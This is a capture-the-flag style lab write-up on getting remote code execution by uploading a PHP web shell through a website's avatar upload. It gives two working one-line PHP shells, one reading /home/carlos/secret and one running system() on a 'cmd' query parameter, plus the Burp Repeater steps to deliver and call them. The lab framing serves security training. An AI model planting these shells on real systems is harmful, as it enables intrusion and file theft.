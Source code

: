 # Remote code execution via web shell upload

**Vulnerability:** Vulnerability in the upload avatar function of the user account

---

### Objective
The goal of this lab upload shell code that can access the website's filesystem and print the file contents present in `/home/carlos/secret` from the image upload button. Send this text to the solution box in the same website

---

### Methodology

#### 1. Reconnaissance
First we have to login as the specified user password. Then upload an arbitrary image to gain access to the GET and POST requests made by the website. Send these requests to the Burp Repeater. When you upload an image, you will see the file path to which the image is uploaded. 

#### 2. Discovery & Exploitation

*   **Step 1:** 
The file path found on the website is where we can inject the shellcode. This can either be done manually by uploading a php script onto the avatar upload button, or by erasing the image data completely in the POST request on Burp's repeater, and replacing it with the shell php filename and shellcode. In the link/GET request you must change the file path to match the shellcode's filepath. This can be viewed by right click inspecting the image avatar after it has been uploaded and you're prompted to return to the logged in page.
*   **Step 2:**  
This shellcode may look like this
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

or this
```
<?php echo system($_GET['cmd']); ?>     
```

The first one runs the command directly accessing the required files, while the second one allows the user to dynamically input commands in the website link or the GET request.

*   **Step 3:** 
If you upload it directly to the website, you will get the output printed on the webpage directly. With the `$_GET` method, you will have to appent `?cmd=<command>` to the link after the shellcode's uploaded filepath. The command could then just be `cat /home/carlos/secret`

If you inspect the Burp Repeater, then you would have to change the file path in the GET request to the the same file path as the image upload file path with the php filename. First send the POST request which contains the php code, then send the GET request which gives you the contents of the file as part of the original request. 


#### 3. Result
Once you get the text, just feed it to the solution tab on the website. This is no different from a regular CTF payload upload


---

### Post Script
The `$_GET` method gave me a similar flag text as the real flag/file content. The `cat /home/carlos/secret` spat out something else which looked very similar to the real answer. However, when I fed the answer to the solution text box, it wasn't accepting it. There were no whitespaces or copying problems. So be cautious while using that method.

